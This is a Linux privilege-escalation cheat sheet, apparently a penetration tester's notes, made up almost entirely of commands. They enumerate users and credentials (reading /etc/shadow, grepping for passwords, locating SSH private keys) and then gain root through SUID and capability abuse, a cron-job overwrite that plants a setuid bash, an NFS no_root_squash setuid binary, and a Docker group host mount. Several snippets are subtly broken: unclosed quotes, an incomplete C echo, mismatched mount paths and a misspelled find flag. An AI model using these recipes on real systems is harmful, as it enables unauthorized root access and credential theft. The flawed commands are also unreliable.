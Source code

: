 # Linux privilege escalation

## Manual enumeration

### User

```
whoami
id
history
```

### Other Users

```
cat /etc/passwd
who
```

### Privileges

```
sudo -l
cat /etc/sudoers
```

### File system

```
pwd (current location)
echo $PATH
```

### Hostname

```
hostname
```

### OS and architecture

```
cat /etc/issue
cat /etc/*-release
uname -a
lscpu
```

### Processes and services

```
ps aux
```

#### pspy

pspy allows you to see commands run by other users, cron jobs, etc. as they execute.

{% embed url="https://github.com/DominicBreuker/psp" %}

```
# print events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```

### Network

```
ifconfig OR ip a (interfaces)
route OR route l (routing table)
netstat -ano OR ss -anp (active connections)
arp -a
```

### Applications/patch levels/drivers/kernel modules

```
dpkg -l
lsmod (lists all kernel modules loaded)
/sbin/modinfo libata (more info on specific kernel modules - libata in this example)
```

### Readable/writeable directories

```
find / -writeable -type d 2>/dev/null
```

### Unmounted disks

```
mount
cat /etc/fstab (drives mounted at boot)
lsblk (all available disks)
```

### Sensitive files

```
history
cat /etc/passwd 
cat /etc/shadow 
cat /etc/group 
```

### Passwords

Search the file system for passwords. Try additional search terms (pass, etc.).

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

### SSH keys

Search the filesystem for SSH keys. Public keys are typically stored in the "authorized\_keys" folder, private keys are stored as "id\_rsa".

```
find / -name id_rsa* 2> /dev/null
find / -name authorized_keys* 2> /dev/null
```

## Automated tools

```
LinPeas.sh
LinEnum.sh
Linux Exploit Suggester
LinuxPrivChecker.py
```

## Exploitation paths

### SUID Files

SUID files allow individuals to execute files using the privileges of another user. They are identifiable by an "s" in the third character of the root permissions for a file. You can search manually with:

```
find / -perm -u=s -type f 2>/dev/null
```

If you find identify a SUID file, check [GTFO bins](https://gtfobins.github.io/) for exploits

### Capabilities

The exploitation for capabilities is similar to that of SUID files. Search for capabilities with:

```
getcap -r / 2>/dev/null
```

Look for "+ep" at the end of any returned items. If present, exploitation possible.

### Execution

Run Python to escalate

```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")
```

Other possibly exploitable capabilities include perl, tar, openssl (check [GTFO bins](https://gtfobins.github.io/))

### Scheduled Tasks

```
cat /etc/cron*
cat /etc/crontab
systemctl list-timers --all
```

Columns represent minute, hour, day of month, month, day of week. Asterisks in columns indicate "all", asterisks in all fields indicates that the task runs every minute/hour/day of month/month/day of week

#### Exploitation

First, check the file type using the `file` command and whether or not you have write access. Sometimes replacing the file with one created on your attacking machine is easier than modifying the file that is in place. If so, rename the current file as \*.old and use wget to replace with the version created on your attack machine.

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > script
**Wait for the job to execute, then
/tmp/bash -p
```

### NFS root squashing

Check `cat /etc/exports` for results indicating "no\_root\_squash", indicating folders that are shareable and can be mounted. If available, remote commands are executed as root.

#### Exploitation

From the attacking machine:

Search for mountable shares

```
showmount -e ipaddress
```

Create a new directory:

```
mkdir /tmp/mntme
```

Mount the folder:

```
mount -o rw, vers=2 ipaddress:/tmp /tmp/mountme
```

Create malicious file:

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; /tmp/mountme/x.c
```

Compile the file:

```
gcc /tmp/mountme/x.c -o /tmp/mountme/x
```

Return to the victim machine, navigate to the target directory (/tmp), and execute the file

```
./x
```

### Docker

If you are in the Docker group, check to see which containers are available:

```
docker image ls
```

Run the image:

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
